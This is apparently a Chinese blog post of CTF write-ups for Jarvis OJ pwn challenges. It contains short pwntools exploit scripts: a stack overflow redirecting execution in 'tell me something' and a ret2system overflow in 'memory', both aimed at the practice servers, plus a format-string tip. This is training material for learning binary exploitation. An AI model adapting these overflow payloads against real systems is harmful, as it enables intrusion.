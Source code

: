 ```yaml
---
title: jarvis_trip
date: 2018-11-28 13:53:54
tags: updating pwn
---
```

发现自己不知道的东西太多了
简单的题目就直接贴wp了...有点东西的题目会有转跳链接

从刷题开始...
keep hunger keep foolish
<!--more-->

# tell me something
[附件][1]
```exp
from pwn import *
off=0x88
p=remote("pwn.jarvisoj.com",9876)
#p=process("challenge")
p.readuntil("message:")
payload=off*'\x01'+p64(0x000000000400620)
#gdb.attach(p)
p.send(payload)
p.interactive()
```

# smashes
[传送门][2]

# fm
直接拿着fmtstr_payload(off,{a,b})就可以了
拿ipython做的没有留wp

# memory
简单的溢出
```python
from pwn import *
sh=0x80487E0
system=0x80485BD
p=remote("pwn2.jarvisoj.com",9876)
#p=process("./memory")
context.arch='i386'
#gdb.attach(p)
p.sendline("A"*23+p32(system)+p32(system)+p32(0)+p32(sh))
p.interactive()
```

[1]:https://github.com/n132/Watermalon/tree/master/jarvis/tell%20me%20something
[2]:https://n132.github.io/2018/11/28/jarvis-smashes/